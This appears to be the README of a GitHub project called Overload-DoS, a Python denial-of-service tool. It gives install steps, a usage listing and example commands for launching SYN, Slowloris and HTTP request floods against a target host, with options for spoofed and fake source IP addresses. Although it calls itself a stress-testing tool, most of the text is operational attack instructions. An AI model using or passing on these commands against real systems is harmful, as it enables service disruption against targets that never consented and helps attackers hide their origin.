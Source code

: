 # Overload-DoS

This a very powerful denial of service (DDoS) program. It is very efficient and portable, it is stable and useful for stress-testing companies, it currently has three attack methods. 1) SYN/ICMP with 6 flags including fin, syn, rst, ack, psh and urg. 2) Slowloris/SLOW uses sock.connect to attack. 3) Request/Requester uses httplib to attack
## Getting Started

You will need a few diffrent modules installed to execute Overload.

### Modules

You will have to use pip to install the modules, colorama, termcolor & requests
```
sudo apt-get install python-pip
```
```
sudo yum install python-pip
```
### Module Installing

Using pip you can install the following modules

```
sudo pip install colorama termcolor requests
```


## Install Overload-Dos

```
git clone https://github.com/codingplanets/Overload-DoS
```
```
cd Overload-DoS
```
```
chmod +x *
```
```
./install-overload
```
## Usages
```
usage: ./Overload-DoS.py -target [target] -port [port] -threads [number threads]

optional arguments:
  -h, --help           show this help message and exit

options:

  -target <ip/domain>  Specify your target
  -timeout <timeout>   Timeout for socket
  -threads <threads>   Set threads number for connection (default = 1000)
  -port <port>         Specify port target (default = 80)
  -sleep <sleep time>  Set sleep time for reconnection
  -spoof <spoofed ip>  Specify spoofed IP address
  -request             Enable request target
  -syn                 Enable syn attack
  -slow                Enable slow attack
  -fakeip              Option to create fake ip if not specifed for spoofed ip
```
## Examples
Slowloris/SLOW attack method
```
./Overload-DoS.py -target www.target.com -port 80 -threads 2000 -slow
```
Request/Requester attack method
```
./Overload-DoS.py -target www.target.com -port 80 -threads 2000 -request
```
SYN/6 flagged ICMP attack method
```
./Overload-DoS.py -target www.target.com -syn -threads 5000
```
## Built With

* [Python 2.7](https://www.python.org/download/releases/2.7/) - The code framework used
* [Requests](http://docs.python-requests.org/en/master/) - Used to send DoS attack
* [Colorama](https://pypi.python.org/pypi/colorama) - Used to generate text color
* [Termcolor](https://pypi.python.org/pypi/termcolor) - Used to generate text color



## Authors

* **Chris Poole** - Twitter:[@codingplanets](https://twitter.com/codingplanets) - Github:[codingplanets](https://github.com/codingplanets)


## License

This project is licensed under the MIT License

